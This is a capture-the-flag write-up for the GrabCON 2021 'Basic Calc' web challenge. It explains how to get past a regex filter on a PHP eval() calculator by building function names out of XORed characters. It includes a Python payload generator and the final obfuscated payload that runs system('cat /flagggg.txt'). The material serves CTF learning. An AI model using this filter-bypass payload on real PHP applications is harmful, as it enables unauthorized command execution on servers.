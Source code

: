 # Basic Calc
## Description

Ever used calc based on php?
## Solution
First we open that web page

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_1.jpg)

Look at the code, we need to bypass the condition that not match regex : ``[A-Za-z`]`` . Since ``eval — Evaluate a string as PHP code``, we can inject a strings to become a code execution.

To bypass input above, we use a `XOR` technique. For example :

```php
A XOR B = C
B XOR C = D

# we can try in php
# For example:
<?php
 echo ('3'^'@'); # output = s
 echo ('9'^'@'); # output = y
 echo ('3'^'@'); # output = s
 echo ('4'^'@'); # output = t
 echo ('8'^']').('2'^'_'); # concat strings

 #ouput = system
?>
```

So how can we know that output? So we decide to create a python script to convert ``strings to XOR code``
or ``generate a xor code from strings``.

```python
# except reqular expression : A-Za-z`
# php print xor example : echo ("A"^"B")
# system execute example:
# <?php
# echo ("system(ls -la)"); #it will execute as strings
# echo ("system")("ls -la"); #it will execute as symbols #magic
# ?>

string_code = ['system','cat /flagggg.txt']
obfuscated_code = ""
charset = "1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j)^ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    #print("XOR ="+chr(ord(j)^ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    #print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)
```

Explain code above:

 1. suppose flagggg.txt location is at ``/`` directory. So we want php to execute code ``system("cat /flagggg.txt")``
 2. list all the chars that not match the regex. For example:``charset ="1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"``
 3. Since ``echo ("system(ls -la)");`` will execute as strings but ``echo ("system")("ls -la");`` will execute as symbols, so we need to seperate them. In python script above we convert them to a list which we store in `string_code` variable.
 4. looping to find ``XOR code`` of each chars that we compared
 5. print all ``XOR code`` that equal the chars in each of index `string_code` variable

```python
Ouput:
("system")("cat /flagggg.txt") = (('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('8'^'[').('!'^'@').('4'^'@').('^'^'~').'/'.('8'^'^').('1'^']').('!'^'@').('8'^'_').('8'^'_').('8'^'_').('8'^'_').'.'.('4'^'@').('8'^'@').('4'^'@'))
```

So now go back to the web page and try to input.

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_3.jpg)

We got flag!

**Note:** Since We already solved this task, we don't want to detail on finding the flag location, you can use this method and try to find by your own.
